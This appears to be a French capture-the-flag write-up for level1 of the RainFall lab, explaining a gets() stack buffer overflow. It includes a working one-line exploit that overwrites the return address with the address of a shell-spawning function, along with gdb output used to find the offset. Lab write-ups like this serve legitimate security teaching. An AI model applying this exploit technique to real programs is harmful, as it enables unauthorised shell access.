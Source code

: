 # Soluce

```
(python -c 'print("A"*76 + "\x44\x84\x04\x08")'; cat - ) | ./level1 
```

## Description du code

Le code contient une fonction nommé run qui lance un shell mais qui n'est pas apeler, et le main qui lis sur l'entrée standard avec gets() et stock le tout dans une string de 76 case memoire, cela risque d'overflow si l'on passe une string de plus de 76 char.

## Decription de l'exploit
```
level1@RainFall:~$ gdb ./level1 
(gdb) run 
Starting program: /home/user/level1/level1 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()
(gdb) info r
(...)
eip            0x63413563       0x63413563
(...)
```

Cela overflow, et overwrite l'adresse de reour on va pouvoir remplacer l'adress de retour par l'adresse de run :

```
(gdb) p run
$1 = {<text variable, no debug info>} 0x8048444 <run>
(gdb) run 
```

## Payload

[Padding de 76] + [Adrresse de run] 

tips : 
utiliser cat - pour garder le shell ouvert lorsque il est executer